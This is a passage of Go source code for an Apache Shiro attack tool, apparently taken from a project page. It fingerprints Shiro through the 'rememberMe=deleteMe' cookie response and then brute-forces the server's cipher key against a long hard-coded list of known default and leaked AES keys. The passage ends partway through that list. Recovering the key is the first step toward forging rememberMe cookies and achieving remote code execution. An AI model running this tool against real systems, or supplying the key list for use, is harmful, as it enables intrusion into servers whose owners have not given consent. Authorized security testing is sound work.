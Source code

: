 ```golang
	var result bool
	var key string
	if result, key = bruteKey(url);result!=true {
		log.Println("\033[31mBrute failed!\033[0m")
		return
	}

	log.Println("\033[33mBrute success!Key: " + key + " \033[0m")
	return
}

func detectShiro(url string) (result bool) {
	client := &http.Client{Timeout: time.Second * 10}
	req, _ := http.NewRequest("GET", url, nil)
	req.Header.Add("Cookie", "rememberMe=1")
	req.Header.Add("User-Agent", "Mozilla/5.0 (X11; Linux x86_64; rv:97.0) Gecko/20100101 Firefox/97.0")
	resp, err := client.Do(req)
	if err != nil {
		log.Println("Error with http request,please check your url")
		return
	}
	setCookies := resp.Cookies()
	for _, cookie := range setCookies {
		if strings.Contains(cookie.String(), "rememberMe=deleteMe") {
			log.Println("Found return cookie: " + cookie.String())
			return true
		}
	}
	return false
}

func bruteKey(url string) (bool, string) {
	key_dict := [...]string{
		"kPH+bIxk5D2deZiIxcaaaA==", "Z3VucwAAAAAAAAAAAAAAAA==", "wGiHplamyXlVB11UXWol8g==",
		"2AvVhdsgUs0FSA3SDFAdag==", "3AvVhmFLUs0KTA3Kprsdag==", "4AvVhmFLUs0KTA3Kprsdag==",
		"bWljcm9zAAAAAAAAAAAAAA==", "WcfHGU25gNnTxTlmJMeSpw==", "fCq+/xW488hMTCD+cmJ3aQ==",
		"kPv59vyqzj00x11LXJZTjJ2UHW48jzHN", "6ZmI6I2j5Y+R5aSn5ZOlAA==", "1QWLxg+NYmxraMoxAXu/Iw==",
		"a2VlcE9uR29pbmdBbmRGaQ==", "5aaC5qKm5oqA5pyvAAAAAA==", "1AvVhdsgUs0FSA3SDFAdag==",
		"5RC7uBZLkByfFfJm22q/Zw==", "3AvVhdAgUs0FSA4SDFAdBg==", "a3dvbmcAAAAAAAAAAAAAAA==",
		"eXNmAAAAAAAAAAAAAAAAAA==", "U0hGX2d1bnMAAAAAAAAAAA==", "Ymx1ZXdoYWxlAAAAAAAAAA==",
		"L7RioUULEFhRyxM7a2R/Yg==", "UGlzMjAxNiVLeUVlXiEjLw==", "bWluZS1hc3NldC1rZXk6QQ==",
		"ZUdsaGJuSmxibVI2ZHc9PQ==", "7AvVhmFLUs0KTA3Kprsdag==", "MTIzNDU2Nzg5MGFiY2RlZg==",
		"OY//C4rhfwNxCQAQCrQQ1Q==", "bTBANVpaOUw0ampRWG43TVJFcF5iXjdJ", "FP7qKJzdJOGkzoQzo2wTmA==",
		"nhNhwZ6X7xzgXnnZBxWFQLwCGQtJojL3", "LEGEND-CAMPUS-CIPHERKEY==", "r0e3c16IdVkouZgk1TKVMg==",
		"ZWvohmPdUsAWT3=KpPqda", "k3+XHEg6D8tb2mGm7VJ3nQ==", "U3ByaW5nQmxhZGUAAAAAAA==",
		"tiVV6g3uZBGfgshesAQbjA==", "ZAvph3dsQs0FSL3SDFAdag==", "0AvVhmFLUs0KTA3Kprsdag==",
		"25BsmdYwjnfcWmnhAciDDg==", "3JvYhmBLUs0ETA5Kprsdag==", "5AvVhmFLUs0KTA3Kprsdag==",
		"6AvVhmFLUs0KTA3Kprsdag==", "6NfXkC7YVCV5DASIrEm1Rg==", "cmVtZW1iZXJNZQAAAAAAAA==",
		"8AvVhmFLUs0KTA3Kprsdag==", "8BvVhmFLUs0KTA3Kprsdag==", "9AvVhmFLUs0KTA3Kprsdag==",
		"OUHYQzxQ/W9e/UjiAGu6rg==", "aU1pcmFjbGVpTWlyYWNsZQ==", "bXRvbnMAAAAAAAAAAAAAAA==",
		"5J7bIJIV0LQSN3c9LPitBQ==", "bya2HkYo57u6fWh5theAWw==", "f/SY5TIve5WWzT4aQlABJA==",
		"WuB+y2gcHRnY2Lg9+Aqmqg==", "3qDVdLawoIr1xFd6ietnwg==", "YI1+nBV//m7ELrIyDHm6DQ==",
		"6Zm+6I2j5Y+R5aS+5ZOlAA==", "2A2V+RFLUs+eTA3Kpr+dag==", "6ZmI6I2j3Y+R1aSn5BOlAA==",
		"SkZpbmFsQmxhZGUAAAAAAA==", "2cVtiE83c4lIrELJwKGJUw==", "fsHspZw/92PrS3XrPW+vxw==",
		"XTx6CKLo/SdSgub+OPHSrw==", "sHdIjUN6tzhl8xZMG3ULCQ==", "O4pdf+7e+mZe8NyxMTPJmQ==",
		"HWrBltGvEZc14h9VpMvZWw==", "rPNqM6uKFCyaL10AK51UkQ==", "Y1JxNSPXVwMkyvES/kJGeQ==",
		"lT2UvDUmQwewm6mMoiw4Ig==", "MPdCMZ9urzEA50JDlDYYDg==", "xVmmoltfpb8tTceuT5R7Bw==",
		"c+3hFGPjbgzGdrC+MHgoRQ==", "ClLk69oNcA3m+s0jIMIkpg==", "Bf7MfkNR0axGGptozrebag==",
		"1tC/xrDYs8ey+sa3emtiYw==", "ZmFsYWRvLnh5ei5zaGlybw==", "cGhyYWNrY3RmREUhfiMkZA==",
		"IduElDUpDDXE677ZkhhKnQ==", "yeAAo1E8BOeAYfBlm4NG9Q==", "cGljYXMAAAAAAAAAAAAAAA==",
		"2itfW92XazYRi5ltW0M2yA==", "XgGkgqGqYrix9lI6vxcrRw==", "ertVhmFLUs0KTA3Kprsdag==",
```